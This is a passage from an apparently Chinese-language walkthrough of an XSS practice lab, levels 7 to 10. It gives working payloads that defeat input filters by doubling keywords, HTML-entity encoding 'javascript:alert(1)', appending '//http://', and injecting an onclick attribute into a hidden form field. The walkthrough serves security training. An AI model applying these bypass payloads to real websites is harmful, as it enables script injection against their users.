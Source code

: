 我们看到过滤代码只进行一次过滤，而非递归或循环过滤，因此我们将涉及的过滤关键字再写一遍插入到原关键字中，使得过滤时触发关键字被替换为空，过滤后又拼组成关键字并带到前端。则XSS语句为

```
3333"><a hrhrefef="javascscriptript:alert(1);">链接文本</a><"
```

提交后执行成功

### Level-8——关键字、大小写、双写无法绕过——Unicode编码绕过

基于以上的过滤手法，我们想到编码绕过思路

在超级加解密工具中选择编码方式为

![202203061013324](https://img.yatjay.top/md/202203261113755.png)

对提交内容进行编码后在提交，`javascript:alert(1);`的编码结果如下：

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;
```

提交后点击友情链接，成功触发XSS代码

### Level-9——关键字、大小写、双写无法绕过+检查`http://`

绕过思路

- 编码绕过关键字过滤
- 添加`//http://`，满足提交参数包含`http://`，js语句执行时`//`后的语句注释掉，以避免影响js语句执行

则XSS代码如下，即在上一关的`javascript:alert(1);`编码之后添加`//http://`

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

提交后添加友情链接，成功触发XSS语句

### Level-10——关键字、大小写、双写无法绕过+表单`type=“hidden”`属性——

我们设法使得表单里的input标签出现onclick鼠标触发事件属性，并且由于需要鼠标点击，那么type属性也不能为hidden，当`input`标签中同时出现`type=“hidden”`和`type=“text”`两种属性时，会执行后者，因此可以添加`type=“text”`属性到`input`标签中去

原始input标签如下

```html
<input name="t_sort"  value="888" type="hidden">
```

目的input标签如下

```html
<input name="t_sort"  value="888" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(GET参数提交)

```html
?keyword=2222&t_sort=888" onclick="alert(1)" type="text
```

